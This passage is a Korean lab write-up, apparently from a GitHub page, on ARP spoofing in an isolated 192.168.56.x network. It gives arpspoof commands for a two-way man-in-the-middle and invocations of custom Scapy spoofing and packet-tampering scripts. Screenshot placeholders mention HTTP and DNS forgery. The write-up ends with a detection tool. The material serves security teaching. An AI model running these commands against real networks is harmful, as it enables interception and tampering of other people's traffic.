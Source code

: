 ### 3. 실습 내용

#### 기본 ARP 스푸핑 (dsniff 도구 사용)

**ARP 스푸핑 실행**

```bash
# 대상 호스트(192.168.56.101)에게 게이트웨이(192.168.56.1)인 척하기
sudo arpspoof -i eth0 -t 192.168.56.101 192.168.56.1

# 동시에 다른 터미널에서 게이트웨이에게 대상 호스트인 척하기
sudo arpspoof -i eth0 -t 192.168.56.1 192.168.56.101
```

[스크린샷 32: arpspoof 실행]
[스크린샷 33: 두 번째 터미널에서 arpspoof 실행]

**트래픽 캡처**

```bash
sudo wireshark -i eth0 -k
```

[스크린샷 34: Wireshark로 트래픽 캡처]

#### Scapy를 이용한 맞춤형 ARP 스푸핑 도구 개발

**ARP 스푸핑 스크립트 실행**

```bash
sudo python3 arp_spoofer.py -t 192.168.56.101 -g 192.168.56.1
```

[스크린샷 35: 맞춤형 ARP 스푸퍼 실행]
[스크린샷 36: 네트워크 스캔 결과]
[스크린샷 37: ARP 스푸핑 진행 중]
[스크린샷 38: 희생자 시스템의 ARP 테이블 변경 확인]

#### 고급 ARP 스푸핑 기법

**선택적 패킷 조작**

```bash
sudo python3 packet_modifier.py -i eth0 -t 192.168.56.101
```

[스크린샷 39: 패킷 조작 스크립트 실행]
[스크린샷 40: HTTP 트래픽 변조 결과]
[스크린샷 41: DNS 응답 위조 결과]
[스크린샷 42: 희생자 브라우저에서 변조된 웹페이지]

#### ARP 스푸핑 탐지 및 방어

**탐지 도구 개발 및 실행**

```bash
sudo python3 arp_detector.py
```
